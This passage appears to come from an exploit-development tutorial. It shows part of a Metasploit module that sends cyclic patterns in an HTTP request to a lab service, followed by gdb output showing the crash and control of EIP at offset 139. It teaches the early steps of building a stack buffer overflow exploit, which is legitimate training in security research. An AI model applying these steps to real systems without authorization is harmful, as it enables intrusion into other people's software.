       ))

      register_options(
      [
              Opt::RHOST("192.168.79.132"),
              Opt::RPORT(20001),
      ], self.class)
   end

   def exploit
    # Open the TCP connection
    connect

    # Create the payload
    filename = Rex::Text.pattern_create(500)
    sploit = "GET #{filename} HTTP/1.1\r\n" + Rex::Text.pattern_create(200)

    # Send the payload
    sock.put(sploit)

    handler
    disconnect
   end
end
{% endhighlight %}

The above module will send two Metasploit patterns. The `pattern_find` command will detail where these patterns are in memory, register that hold part of the pattern, and registers that points to part of a pattern. This output will display what registers are under attacker control.

_Note: The_ `pattern_find` _and_ `pattern_offset` _are custom commands which can be found [here](http://github.com/philwantsfish/gdb_commands)_

{% highlight bash %}
(gdb) c
Continuing.
[New process 23279]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 23279]
0x65413665 in ?? ()
(gdb) pattern_offset eip
139
(gdb) pattern_find
| Location   | Length | Region
| 0xbff96b31 | 500    | [stack]
| 0xbff96dd9 | 200    | [stack]
| Pointer    | 143    | esp   
| Register   | 135    | ebp   
| Pointer    | 0      | esi   
| Register   | 139    | eip   
(gdb) i r
eax            0x1  1
ecx            0xb76788d0 -1217951536
edx            0xbff96d25 -1074172635
ebx            0xb77f0ff4 -1216409612
esp            0xbff96bc0 0xbff96bc0
ebp            0x41356541 0x41356541